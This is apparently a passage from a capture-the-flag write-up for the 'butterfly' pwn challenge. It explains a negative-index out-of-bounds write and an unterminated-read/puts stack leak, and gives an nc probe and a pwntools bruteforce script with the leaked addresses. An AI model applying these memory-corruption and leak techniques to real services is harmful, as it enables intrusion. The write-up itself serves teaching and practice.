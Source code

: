 In `handler()`, a few things happen.  
1. Two `malloc(0x200)` pointers are written to `.bss` contingously (as the `note[2]` array)  
2. The client is queried for an input of `read(0x50)`  
3. The input is echoed back with `puts()`  
4. The client is queried for a `int64_t` value (of maximum strlen 0x18), `idx`, via the function `getnum()`  
  * `if(idx < 2)`: The client is queried for `read(0xe8)` bytes to write into the buffer at `note[idx]`  
5. A leaving message is printed (`puts("Bye")`), and `_exit()` is called

The most glaring vulnerability here is definitely the `if()` check on step 4.
Since `atoll()` is free to return negative numbers, `idx` can be used to write
to any pointer that happens to lie behind `note[]` in allocated memory. It
might even be possible to write *ahead* of `note[]`, because indexing a
sufficiently negative `note[idx]` (i.e. `-idx>note`) might allow integer
underflow to greater addresses<sup>1</sup>.

There's also a more subtle vulnerability in steps 2 & 3. `puts()` assumes a
`\0`-terminated string, but `read()` doesn't mind if you just leave a dangling
buffer open with no nul-terminator. If we send over *just enough* bytes to
reach the beginning of an already-existing value on the stack, `puts()` will
leak out values until it finds its first `\x00` byte:  
```bash  
$ printf 'AAAAAAAA' | nc pwn.darkarmy.xyz 32770 | xxd  
00000000: 4920 6e65 6564 2079 6f75 7220 6e61 6d65  I need your name  
00000010: 3a20 4141 4141 4141 4141 1087 71ee 657f  : AAAAAAAA..q.e. # <--
0x7f65ee718710 is leaked here!  
00000020: 0a45 6e74 6572 2074 6865 2069 6e64 6578  .Enter the index  
```  
This brings us to step 1 of the exploit:

## Leaking information  
We can whip up a quick bruteforcer to see what addresses we get to leak:  
```python  
from pwn import *  
context.binary = 'distribute/challenge_bin/butterfly'  
for OFF in range(0,0x51,8):  
   p = remote('pwn.darkarmy.xyz', 32770)  
   p.sendafter(': ', 'a'*OFF if OFF else '\n')  
   output = p.recvline()[OFF:-1]  
log.info('%d:%r,%s' % (OFF,output, hex(u64(output.ljust(8,b'\0')))))  
```  
```python  
[*] 0:b'',0x0  
[*] 8:b'\x10Gz\xaeQ\x7f',0x7f51ae7a4710  
[*] 16:b'',0x0  
[*] 24:b'?2\x07\x854\x7f',0x7f348507323f  
[*] 32:b'',0x0  
[*] 40:b'\x10z|\x88\xfc\x7f',0x7ffc887c7a10  
[*] 48:b'',0x0  
[*] 56:b'',0x0  
[*] 64:b'',0x0  
[*] 72:b'\x10G\xf6\xff\x1b\x7f',0x7f1bfff64710  
[*] 80:b'\xe7\xb9J5S\x7f',0x7f53354ab9e7  
```  
This isn't enough information — what do any of these addresses point to?
